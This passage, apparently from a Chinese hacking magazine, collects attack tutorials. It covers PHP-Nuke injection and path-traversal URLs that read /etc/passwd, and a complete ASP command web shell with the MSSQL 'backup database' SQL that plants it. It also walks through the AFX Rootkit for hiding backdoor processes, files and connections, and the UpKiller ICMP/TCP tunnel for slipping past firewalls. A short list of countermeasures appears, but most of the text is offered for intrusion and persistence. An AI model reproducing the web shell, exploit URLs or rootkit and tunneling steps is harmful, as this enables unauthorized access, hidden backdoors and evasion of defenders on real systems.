

图2

（4）“Download”模块存在有 SQL Injection 的漏洞，可以让恶意的使用者输入任意的 SQL 语法对数据库进行查询；“Your_Account”模块存在有漏洞，可以让恶意的使用者发动“Cross-Site Scripting”攻击。目前漏洞还没有任何的修补程序或可以供设定的防护措施（图3）。



图4

```php
/modules/Your_Account/index.php:

switch($op){
[...]
case "mailpasswd":
    mail_password($uname, $code);
    break;

case "userinfo":
    userinfo($uname, $bypass, $hid, $uri);
    break;

case "login":
    login($uname, $pass);
    break;
[...]
case "saveuser":
    saveuser($uid, $realname, $uname, $email, $femail, $url, $pass, $vpass,
    $bio, $user_avatar, $user_icq, $user_occ, $user_from, $user_intrests,
    $user_sig, $user_aim, $use_yim, $user_msnm, $attach, $newsletter);
    break;
[...]
case "savehome":
    savehome($uid, $uname, $storynum, $ublockon, $ublock, $broadcast,
    $popmessages);
    break;
}
```

图3

在浏览器中输入：http://127.0.0.1/admin.php?upload=1&wdir=/../../../../../../../../tmp&userfile=/../../../../../../../../tmp/copyme.txt&userfile_name=/../../../../../../../../tmp/mytest.txt，造成的后果是 mytest.txt 被复制到 /tmp 下面。

#### 入侵实例

我们利用上面提到的漏洞做了一个入侵的例子，当然这样做的目的是为了验证确实存在该漏洞，而不是去搞破坏。输入：

通常这时候是先试试 passwd，当希望通过指定不同的文件名来将 /etc/passwd 文件拷贝到 images 目录下时，提示出错，输入：http://127.0.0.1/admin.php?upload=1&file=/etc/passwd&file_name=mytest.txt&wdir=/images/&userfile=/etc/passwd&userfile_name=hacked.txt

而浏览器里返回的结果如下：

```text
Warning: SAFE MODE Restriction in effect. The script whose uid is 180 is not allowed to access /etc/passwd, owned by uid 0 in /home/htdocs/www-edu/admin.php on line 398.
```

这样便将 /etc/passwd 文件复制到 images/mytest.txt，同样可以通过浏览器来看到它。

#### 防范措施

从上面描述的漏洞可以看出来，造成这些漏洞的原因归根结底只有一个：提交参数没过滤或过滤不够严谨，防范方法自然就是避免这种现象的发生了。

- 1. 我个人认为最重要的一点是将 magic_quotes_gpc 改为 ON，它的作用是将单引号、双引号、反斜线和空字符转换为含有反斜线的字符。如：select * from admin where username='$username' and password='$password' 语句，攻击者假设想用 `1' or '1'='1` 跳过验证，那么字符串将被转换成：select * from admin where username='a' and password='1\' or 1=\'1'，从而达到阻止注入的目的。

- 2. 包含文件里的参数尽量不要使用变量，一定要使用的话则必须严格检查要包含的文件名，绝对不能由用户任意指定，建议设 global_variables 为 off。

- 3. 如非特殊需要，一定要关闭 PHP 的远程文件打开功能。修改 php.ini 文件，修改语句 allow_url_fopen = Off。

- 4. 关闭错误显示，很多攻击者可以通过错误提示来获得如数据库信息、网页文件物理路径等信息。

- 5. 建议停止使用“PHP-Nuke”。

- 6. 自行修改有漏洞的程序模块，过滤不正常的字符串。

- 7. 如果不能立刻安装补丁或者升级，建议使用 Ulf HarnHammer 提供的第三方补丁以降低威胁，下载地址为：http://downloads.securityfocus.com/vulnerabilities/patches/php-nuke_webmail.zip。

- 8. 及时更新厂商补丁，同时建议使用此系统的用户随时关注厂商的主页以获取最新版本，其网址为 http://www.phpnuke.org。

### 通过数据库备份巧获 SHELL

文/N.E.V.E.R

脚本小子：获得网站 Shell 的方法比较多，但是通过备份数据库来获得 Shell 应该是一种非常不错的想法，或许大家见过在 MySQL 下利用数据库来写文件的例子，那其他环境下呢？本文 N.E.V.E.R 给大家介绍了一种在 MSSQL 下 backup a shell 的方法。

最早想到利用数据库系统来写文件，大约是在 MySQL 下面的事情吧。我记得有篇经典的文章是讲利用 TCP 反弹结合输入法漏洞入侵的，第一步，也是很重要的一步，就是利用了 MySQL 导出表到文件获得了一个 Web 上的 Shell。Access 功能不是那么强大，有注入漏洞的时候也不能直接获得执行任何命令的权限，就不说了；MSSQL 倒是有很多人详细研究过，执行命令的方法罗列了很多，可是没有了 exec 的权限，能够做的还是比较有限。很多人就在问，MSSQL 下面能不能导出一张表到文件，就像 MySQL 那样子，至少先获得一个低权限的 Shell 来看看。我找来找去也没有找到导出表的命令，只好另想方法。不能导出表，那就只好导出数据库了，效果嘛，大部分情况下还是一样的。

在说明做法前，还是先来看看可以这样做的原因。IIS 在通过 asp.dll 处理 .asp 扩展名文件的时候，对 `<% %>` 以外的内容，不做任何处理就直接输出，比如拷贝一个 .exe 文件到 Web 发布目录，改扩展名为 .asp 后在 IE 中请求，返回回来的结果多半是 .exe 文件的内容，而不会是一个 500 服务器内部错误。而对于 `<% %>` 括起来的内容，默认情况下是按照 VBScript 的方式解释执行后给出结果，如果在 `<% %>` 里面的内容有语法错误，才会出现常见的 500 服务器内部错误。换句话说，如果有一个以 .asp 为扩展名的文件，只要能精心控制所有的 `<% %>` 中的内容，我们就能够让它正确地执行，至于 `<% %>` 以外的东西，asp.dll 不去处理它，我们也不去关心。

> **编者注**
>
> 这是一个非常重要的特征。这样，即使我们的数据库中存在很多对我们的 Shell 无用的内容，也不会影响 Shell 的正常使用了。

再来看看在 MSSQL 下使用 backup database 的情况。随便导出一个数据库看看，比如 model，当然了，这也可以在查询分析器中做：

```sql
backup database model to disk='c:\a.txt'
```

用文本的方式打开这个文件。通过上面的分析，我们只要知道默认的情况下，如果把这个文件改扩展名为 .asp 后，请求时会不会出现问题，于是我们查找是否存在 `<%` 和 `%>`，显然，是没有的吧，也就是说我们的请求会返回文本方式的内容。首先是默认的导出文件不会导致解释执行时的错误，这是很关键的一步，剩下的就是我们要让它变为一个 Shell。当然是做一个表进去，表的内容在备份的时候一定会被存储到备份文件中去的，我们可以控制表的内容，自然也可以控制备份文件的内容。

到这里可能有人已经想一股脑儿把经典的 ASP Shell 的内容写入新建的表然后 backup database 了。嗯，还没有那么简单，你这样做了的话，如果还想继续我们的实验，那可能要花上重装 MSSQL 的代价。对于文本类型等的数据，比如 text、nvarchar 等，在数据库中可能的形式是“abc”，但是在导出文件中，已经变成了宽字符的形式，成了“a b c”，这样一来，即使你好心写的是一个 `<%`，到了备份文件中，一样也成了 `< %`，里面的内容更是乱七八糟，根本不会被解释执行了。为了避免这种情况，我们创建的表列项应该是一个二进制形式的，比如属性为 image，这样在里面添加的内容，原来是什么，导出的备份文件中也就是什么，规规矩矩的，一点都不会变了。

> **编者注**
>
> 看来宽字符也是我们不得不注意的一个重要问题。还好，问题总有它可以解决的办法。

到了这里，最后只剩下一个问题了。就算你把 ASP Shell 的内容写入新建的二进制表，总不会是单独的一行吧，谁知道同一个表的两行之间，在导出的备份文件中会不会还有其他的一些内容呢？如果是这样的话，前面一行“<%”后的内容倒是可以，中间如果有些乱七八糟的数据，用 VBScript 的方式解释执行百分之百是一个 500 错误。所以每一行必须是一个完整的 `<% %>`，这样我们才能完全地控制 `<% %>` 内的内容，保证能够得到一个正确无误的 ASP Shell。

OK，终于到了实践的部分了。通过上面的分析，应该知道利用 backup database 来做一个 Shell 是完全可行的，我们先来改写一下那个利用 FSO 的 ASP Shell，使其能够符合我们的要求：

```asp
<% Dim oScript %>
<% Dim oScriptNet %>
<% Dim oFileSys, oFile %>
<% Dim szCMD, szTempFile %>
<% Set oScript = Server.CreateObject("WSCRIPT.SHELL") %>
<% Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") %>
<% Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") %>
<% szCMD = Request.Form("CMD") %>
<%
If (szCMD <> "") Then
%>
<% szTempFile = "C:\\" & oFileSys.GetTempName() %>
<% Call oScript.Run("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) %>
<% Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0) %>
<% End If %>
<HTML><BODY><FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
<input type=text name="CMD" size=45 value="<%= szCMD %>"><input type=submit value="Run"></FORM>
<PRE>

<% If (IsObject(oFile)) Then %>
<% On Error Resume Next %>
<% Response.Write Server.HTMLEncode(oFile.ReadAll) %>
<% oFile.Close %>
<% Call oFileSys.DeleteFile(szTempFile, True) %>
<% End If %>
</BODY></HTML>
```

然后打开查询分析器，依次输入以下的 SQL 查询语句。这些语句的大意就是创建一张表，里面有一个二进制 image 类型的列，然后把我们上面改写的那个 Shell 作为内容输进去，最后导出整个数据库到一个 asp 文件，开始！

```sql
use model
create table cmd (str image);
insert into cmd(str) values ('<% Dim oScript %>');
insert into cmd(str) values ('<% Dim oScriptNet %>');
insert into cmd(str) values ('<% Dim oFileSys, oFile %>');
insert into cmd(str) values ('<% Dim szCMD, szTempFile %>');
insert into cmd(str) values ('<% Set oScript = Server.CreateObject("WSCRIPT.SHELL") %>');
insert into cmd(str) values ('<% Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") %>');
insert into cmd(str) values ('<% Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") %>');
insert into cmd(str) values ('<% szCMD = Request.Form("CMD") %>');
insert into cmd(str) values ('<% If (szCMD <> "") Then %>');
insert into cmd(str) values ('<% Set szTempFile = "C:\\" & oFileSys.GetTempName() %>');
insert into cmd(str) values ('<% Call oScript.Run("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) %>');
insert into cmd(str) values ('<% Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0) %>');
insert into cmd(str) values ('<% End If %>');
insert into cmd(str) values ('<HTML><BODY><FORM action="<%= Request.ServerVariables("URL") %>" method="POST">');
insert into cmd(str) values ('<input type=text name="CMD" size=45 value="<%= szCMD %>"><input type=submit value="Run"></FORM>');
insert into cmd(str) values ('<PRE>');
insert into cmd(str) values ('<% If (IsObject(oFile)) Then %>');
insert into cmd(str) values ('<% On Error Resume Next %>');
insert into cmd(str) values ('<% Response.Write Server.HTMLEncode(oFile.ReadAll) %>');
insert into cmd(str) values ('<% oFile.Close %>');
insert into cmd(str) values ('<% Call oFileSys.DeleteFile(szTempFile, True) %>');
insert into cmd(str) values ('<% End If %>');
insert into cmd(str) values ('</BODY></HTML>');
backup database model to disk='c:\1.asp';
```

拷贝 c:\1.asp 到你的 Web 发布目录，再用浏览器请求一下，没有 500 错误的话，你已经获得一个 Shell 了，不过这个 Shell 中垃圾数据实在是太多，要多按几下 TAB 键才能到输入命令的输入框。

最后再说说可能出现的问题。一般来说，随意选择一个数据库导出，默认情况下里面是不含有“<%”或者“%>”的，但也不排除有这种可能，尽管几率很小，但是我就遇到过一次。如果以前没有动过 model，导出的文件肯定是符合要求的；但是如果中途写错了些东西，比如创建了一个表，内容有“<%”但是在同一行内没有“%>”出现的话，这个数据库就再也不能用了。因为也许是为了事务回滚的需要，即使你删除了这张表，在导出的文件中依然保存有这张表的原始内容，所以千万要一次成功，错了就完了。

当然，上面只是在查询分析器中的实验。实际情况下，如果能以 sa 的身份连入，当然是比较轻松的，只是猜测 Web 的物理路径的时候可能会稍微有一些麻烦，因为你得一次性导出到 Web 的发布目录，不过也许可以结合其他暴露物理路径的漏洞来利用。如果不是 sa 的身份的话，也许“declare @a sysname; select @a=db_name()”会有一些用处。成功的几率，不敢说得太高，估计 80% 还是有的吧。如果你真的通过这种方法得到了 shell，其实你会发现，这真是世界上最可爱最好用的 ASP Shell——尽管有很多垃圾数据，或许还是个 2.3M 的大家伙。

#### 后记

本文通过备份数据库得到了我们想要的 Shell，应该说这是一种非常巧妙的思路。虽然本文例子是在查询分析器中做的实验，但其一样适合我们平时的各种渗透实验之中，相信大家可以举一反三。在我们平时的各种实验中，如果你对各种常规的方法已感到厌倦，或者深思毫无新意，不妨多换换几个角度思考问题，或许我们会获得更加巧妙的解决方法。如果我们本身没有创新的意识和冲动，很多有趣的东西就只会离我们越来越远了。

### 上接10页

检测 WinGate 主机是否有这种安全漏洞的方法如下：

- 1. 使用 telnet 尝试连接到一台 WinGate 服务器。

```text
[root@happy /tmp]# telnet 172.29.11.191
Trying 172.29.11.191....
Connected to 172.29.11.191.
Escape character is '^]'.
Wingate> 10.50.21.5
Connected to host 10.50.21.5... Connected
SunOS 5.6
Login:
```

- 2. 如果接收到如上的响应文本，那就输入待连接到的网站。
- 3. 如果看到了该新系统的登录提示符，那么该服务器是脆弱的。

另外，Wingate 的转发器还存在缓冲区拒绝服务攻击。攻击的办法很简单，我们可以 Telnet 到 Wingate 的 2080 端口发送 2000 个字符。呵呵，Wingate 就真的“die”了。

### 总结

一直以来，黑客都在研究攻击防火墙的技术和手段，攻击的手法和技术越来越智能化和多样化，如今网络上出现了新一代的智能防火墙，它的出现预示着攻击者不可能再通过简单的办法来突破防火墙。但是就黑客攻击防火墙的过程上看，大概可以分为下面 3 种。

- 1. 攻击防火墙的方法是探测在目标网络上安装的是何种防火墙系统，并且找出此防火墙系统允许哪些服务，我们叫它为对防火墙的探测攻击。
- 2. 攻击防火墙的方法是采取地址欺骗、TCP 序号攻击等手法绕过防火墙的认证机制，从而对防火墙和内部网络破坏。
- 3. 攻击防火墙的方法是寻找、利用防火墙系统实现和设计上的安全漏洞，从而有针对性地发动攻击。这种攻击难度比较大，可是破坏性很大。

如果可以综合上面 3 种方式，再利用各种防火墙自身的硬件特性，我想要打开你的“墙”是不难的！各位认为防火墙完美无缺的朋友可要小心了！

蝴蝶：刚刚进入 2004 年不久，操作系统又接连不断地出现了安全漏洞，从 Linux Kernel do_brk() 参数边界检查不充分漏洞，到现在的 MS04-007-Microsoft ASN.1 库 BER 解码堆破坏漏洞，不管是 Windows，还是 Linux 都难逃此劫。利用这些漏洞，想必大家手上都存储着不少肉鸡了吧？本人常常穿梭于各大论坛，普遍存在的问题是入侵之后不知道该怎么隐藏后门，更有甚者直接加了一个管理员用户。这真是让人苦笑。那么，是否有什么好办法来隐藏我们的后门？答案是肯定的，这就是我们要说的 NT Rootkit。我想这个词对大家一定不陌生，在 Linux 平台下，它鼎鼎有名；现在，各路“高手”已经把它移植到了 Windows 平台下，使我们可以隐藏任意“进程”、“文件”、“注册表”、“连接”等。这么好的东西我们没理由不用，否则岂不是太浪费了？

### Rootkit 让后门隐藏无踪影

文／dahubaobao

所谓 Rootkit，即特洛伊木马程序包，最初的设计思想是替换系统已存在的程序，使入侵者放置的后门得以隐藏。但随着时间的推移，Rootkit 再也不是一个简单的角色，几乎在各种平台下都有 Rootkit 的踪影，而且 Rootkit 也不再是当初的模样，集成了后门和 Sniffer 等功能，可以说是异常强大！如果大家有兴趣研究，可以到 www.Rootkit.com 上查找，这里有大量的不同平台的 Rootkit，技术资料也非常值得收藏。

如果对高级的 Rootkit 比较感兴趣，可以参考《高级 Win2K Rootkit 检测技术》。

#### Rootkit 原理

既然我们要使用 Rootkit，就有必要了解一下其原理，使我们对 Rootkit 有一个感性的认识。一般实现内核级 Rootkit 有两种方法：更改系统的数据结构和更改内核的执行路径。

更改系统数据结构的 Rootkit 并不太多，FU_Rootkit 算是一个，这类 Rootkit 是通过删除内核中 PsActiveProcessList 链上的进程对象来隐藏进程。而更改内核的执行路径，是通过修改或增加内核或系统 DLL 中的指令。

- 1. **隐藏进程、目录、文件、注册表**

要想实现进程、目录、文件、注册表的隐藏，必须拦截操作系统调用它们的函数，分别为：ZwQueryDirectoryFile、ZwQuerySystemInformation 和 ZwXXXValueKey。但它们并不是能随意修改的，必须自己写出相关函数，然后修改 SYSCALL 表，使其指向自己的函数。注意，要想修改 SYSCALL 表，必须在 Ring0（核心态）状态。

- 2. **隐藏连接和端口**

隐藏连接、端口使用的技术为 TDI 查询。在 TDI 中会有 \\Device\\TCP 与 \\Device\\UDP 两个设备，我们可以编写代码，使用户到 Ring0 状态，然后修改设备中的数据，以达到隐藏连接和端口的目的。好了，原理就先说到这，下面进入正题。

**注**

本文以 Windows Entertainment Edition 2003 为例。

#### Rootkit 应用实例

首先介绍今天的主角 AFX Windows Rootkit 2003，一款应用于所有 Windows 平台的 Rootkit；可以隐藏“进程”、“文件”、“注册表”、“文件夹”以及 netstat -an 下的任意通讯。而且它是基于 GUI（图形接口）界面的，易于使用。程序由 3 个文件组成，分别为 RootKit.exe（主程序）、ReadMe.txt（说明文件）和 example.exe（示例程序）。在介绍使用方法之前，先说一下此工具的工作原理。

首先使用 RootKit.exe 生成后门程序，然后直接运行即可（注意，执行当中不会有任何提示）。后门程序运行之后，把其复制到系统目录，抽取两个 DLL 文件并生成 iexplore.exe 和 explorer.exe。使用 iexplore.exe 把 explorer.dll 注射到 explorer.exe 中，并把后门程序加入到注册表中的启动项。实现隐藏的核心文件为 explorer.dll 文件，采用的技术为 HOOK（钩子）。下面介绍一下其使用方法。

图 1 是 AFX Windows Rootkit 2003 的默认界面，很简洁、友好。整个工具分成 4 个部分：隐藏进程（Processes）、隐藏文件（Files）、隐藏注册表（Registry）和隐藏通讯连接（Connections）。

图 1

### 1. 隐藏进程（Processes）

在这个窗口中，右键点击空白处，会出现 Add（添加）和 Delete（删除）；这里当然选择 Add 了，然后会弹出一个小窗口，请求输入欲隐藏的进程名，这里可以任意填写，注意格式要使用“进程名.扩展名”，比如可以填写你的后门的进程。这样，你欲隐藏的进程就不会出现在进程列表中了，任务管理器就形同虚设了；如果要删除，只需点上添加过的进程名，然后右键点击，选择 Delete 即可。

### 2. 隐藏文件（Files）

这里的设置跟隐藏进程一样，只需把进程名改为文件名，其格式不变，即“文件名.扩展名”。

### 3. 隐藏注册表（Registry）

首先右键点击空白处，然后点击 Add，在弹出的小窗口中输入键项名称，最后点击“确定”即可，其格式只为键项名称。

### 4. 隐藏通讯连接（Connections）

这里一共有 3 种隐藏方式，分别为：Protocol（协议隐藏）、Local Address: Port（本地端口隐藏）和 Remote Address: Port（远程端口隐藏）。下面详细地解释一下。

###### （1）Protocol（协议隐藏）

所谓协议隐藏，实质上就是使用 netstat -an 无法发现我们的连接。netstat -an 无非就是显示 TCP 协议连接和 UDP 协议连接，所以这里只需填写 TCP 还是 UDP，然后运行生成的后门程序，之后 netstat -an 就看不到非法连接了。不过，这个选项我们一般用不上，我想不会有什么人把所有的 TCP 连接都隐藏了吧？

###### （2）Local Address: Port（本地端口隐藏）

假设给目标种下了木马（或者其他的后门，但在这里指的是需要打开一个端口的），打开了某某端口，如果需要将其隐藏，只需在点击 Add 之后弹出的小窗口中填写本地地址：端口，这样使用 netstat -an 就不会看到我们的木马所开放的端口了。是不是很好玩？

###### （3）Remote Address: Port（远程端口隐藏）

还是以上面的木马所开的端口为例，连接木马必然会出现在 netstat -an 命令之下，而我们的行踪必然会暴露。如果我们设置了远程端口隐藏，那在 netstat -an 命令之下，就不会显示连接，这样隐藏程度又增加了一层，如果配合本地端口隐藏，更是天衣无缝，可谓螳螂捕蝉，黄雀在后。

###### （4）指定／混合使用

在隐藏通讯中，不仅仅局限于上面的 3 种，还可以指定 IP 地址（注意，这里所说的 IP 地址跟端口隐藏没有直接关系），可以混合使用这些“规则”等。比如上面说过的，本地端口隐藏和远程端口隐藏结合使用，可以使我们实现“完全”隐藏。假设我们的 IP 为 111.222.333.444，接下来添加一条隐藏规则，直接填写出 IP 地址，这样就会“隐藏该 IP 地址的全部通讯”，经过这样的处理，我们的 IP 地址永远不会出现在对方的 netstat -an 命令之下（除非 Rootkit 被清除了）。再来说说混合使用，本地端口隐藏和远程端口隐藏是其中一种，还可以使用协议隐藏和本地端口隐藏，即“*TCP*:80*:*”，协议隐藏和远程端口隐藏，即“*TCP*:*IP:Port*”。如果还不是很明白，可以查看后门自带的帮助，作者给出了多个例子。结合上边的解释往上套，相信你一定可以玩转该工具。其帮助信息如图 2 所示：

图 2

###### （5）使用通配符隐藏

如果你在阅读本文之前查看过后门工具，肯定会说我少说了点什么。对，就是通配符。在上边的隐藏模块中（除协议隐藏），都可以结合通配符以加强后门的易用性。由于其中的 3 个模块中，通配符的使用相同，所以我放到最后来说。假设在某个文件夹下，我有 N 个文件需要隐藏，但它们有一个共同的特性，都是以 flie 开头的，如果要将它们都隐藏，需要一个一个添加，这样太麻烦了，所以要使用通配符。通配符的使用非常简单，首先给出 N 个文件的共同特点，换句话说，也就是文件的开头部分（注意，开头部分必须一样），然后再添加一个 * 号，即“flie*”，这样，所有以 flie 开头的文件都将会隐藏，省去了我们大部分时间；而且这里有一个最大的优点，就是减少了后门的大小。因为后门程序会从资源中释放出 N 个文件，如果只添加了一个选项，后门程序的大小也不会低于 150KB，所以使用通配符将会更好。最后，点击 Generate（生成），输入后门文件名，确定即可。

> **编后**
>
> Rootkit 是一个多么迷人的东西，它能使你在目标系统上的痕迹消失于无形，善用 Rootkit 将会使自己的后门活得更久远一些。话说回来，既然 Rootkit 这么强大，万一自己不幸中招，该怎么清除后门和检测 Rootkit 呢？别担心，我们已经为大家想到了，所有的解决办法尽在拙文《Rootkit 的清除与检测》一文中。另外，这个工具使用 UPX 加过壳，感兴趣的读者可以自己脱壳，反汇编看看其中的技术细节，说不定会有什么意外之喜呢！

> **注**
>
> 本文需要的工具我们已经收录入光盘杂志相关栏目中，按照文章名查找即可。

## 突破防火墙的利器

文／dahubaobao

## ——隧道攻击

蝴蝶：提到保障网络安全，大多数人都会想到防火墙，因为是它保障了网络安全。但有了防火墙真的就安全了吗？其实不尽然，我有很多种方法能够突破防火墙的封锁！这可以分两方面来说：一是利用防火墙本身的弱点，一般指防火墙的默认安全规则，比如江民反黑王默认的安全级别是中级，在屏蔽 ICMP 的规则中，只有 ICMP Type 0 和 ICMP Type 8 被禁止了，而其他的 ICMP Type 都没有禁止，这样我们就可以通过 ICMP 打开缺口；二是利用第三方工具，这就是我们今天要说的主角“隧道”，通过使用它，我们可以轻易地突破防火墙，从而实现远程控制。究竟什么是隧道？如何应用？读了本文，你就会找到答案！

简单地说，隧道（Tunnel）是一种封装，即把一种协议的报文封装在另一种协议的报文中进行传输。图 1 是其原理的简单示意。下面我们将从 Windows 和 Unix 系统两个方面分别说明如何利用隧道突破防火墙。

系统，直接运行即可完成安装，再使用 UpClient IP 连接目标即可。

图 1

#### 1．ICMP 协议

##### Windows 系统

这里介绍一款专为突破防火墙而设计的后门 UpKiller，它不开端口，只通过收发数据包实现远程控制，可以使用 ICMP、TCP 和 UDP 3 种协议实现隧道，并且自定义能力非常强，可以获得 Local System 权限的 Shell，还可以使用 SYN Flooder 等功能。其测试环境为：

首先你应该知道 ICMP Type 共有 13 种，如何选择合适的类型来突破防火墙（图 2）呢？这里给出几条建议：

- 1. 允许传入的回显请求  
  即传入的回显请求，Echo Reply(Type 0)/Echo Request(Type 8)，也就是我们常用的 Ping。
- 2. 允许传入的时间戳请求  
  即时间标志请求，Timestamp Request(Type 13)/Timestamp Reply(Type 14)。
- 3. 允许传入的掩码请求  
  即取得子网掩码地址信息，Address Mask Request(Type 17)/Address Mask Reply(Type 18)。

> 本地：Windows 2000 Advanced Server  
> 目标：Windows 2000 Professional  
> 测试对象：江民、天网和金山网镖

首先把 UpKiller 的服务端 UpServer 上传到目标系统，直接运行即可完成安装，再使用 UpClient IP 连接目标即可。

言归正传，我们在本地使用 UpClient 192.168.0.1 连接目标系统，连上之后会让你选择协议，1 为 ICMP，2 为 TCP，3 为 UDP，我们选择 ICMP 协议（图 3），之后会出现如下提示：

图 3

图 5

```text
<0.T 0,0> <1.T 8,0> <2.T 13,14> <3.T 17,18> <4.T 5> <5.Input>
```

这是作者已经定义的“规则”（我们暂时就称为规则吧），输入 5 可以自定义 ICMP Type。现在我们就来测试一下，输入 ICMP Type 15 和 16，看看效果如何？哈哈，成功了（图 4）。目标主机虽然安装了江民防火墙，但因为安全级别为“中”，并没有禁止所有 ICMP Type，所以我们成功地连接上去了。

而且可以自由组合这 6 个标志位（注意：要遵循 TCP/IP 的规定），最多可达 60 多种组合（图 6）。TCP 的 6 个标志位含义如下：

- **SYN**：用来建立连接，让连接双方同步序列号。
- **FIN**：表示发送端已经没有数据要发送了，要求释放连接。
- **RST**：复位一个连接。
- **URG**：紧急数据标志，如果它为 1，表示本地数据包中包含紧急数据。
- **ACK**：确认标志位，如果为 1，表示确实有效，反之，则无效。
- **PSH**：如果置位，接收端应尽快把数据传送给应用层。

图 4

| IP包中的TCP头 |  |  |
|---|---|---|
| 源端口 | 目的端口 |  |
| 序列号 |  |  |
| 确认值 |  |  |
| 头部信息 | TCP标志位 | 窗口大小 |
| TCP校验和 | 紧急指针 |  |
| 恶意数据就是插入在这里 |  |  |

图 6

现在我们把江民防火墙的安全级别修改为“高”，再看看效果如何？结果如图 5 所示，这次连接不上了，因为江民防火墙已经把所有的 ICMP Type 禁止了。

#### 2．TCP 协议

使用 TCP 协议实现隧道其实是通过 TCP 的 6 个标志位来实现的。正常情况下，只要目标开启了一个 TCP 端口，就一定可以连接成功（真是狠毒啊）。

我们再次连接上目标，这里就要选择 2 TCP 协议了，之后会显示：

```text
<0.1080-445> <1.445-1080> <2.1080-80> <3.80-1080> <4.Input>
```

这里再解释一下其含义：

- `<0.1080-445>`：以 1080 端口连接目标 445 端口，标志位为 SYN。
- `<1.445-1080>`：欺骗防火墙 445 连接目标 1080，标志位为 ACK。

其实这里的意思是可以自定义“源端口”和“目的端口”，以达到一定的欺骗性。现在我们输入 4 来自定义，输入之后，会要求你填写源端口（80）、目的端口（445）和标志位（SYN），具体如图 7 所示。

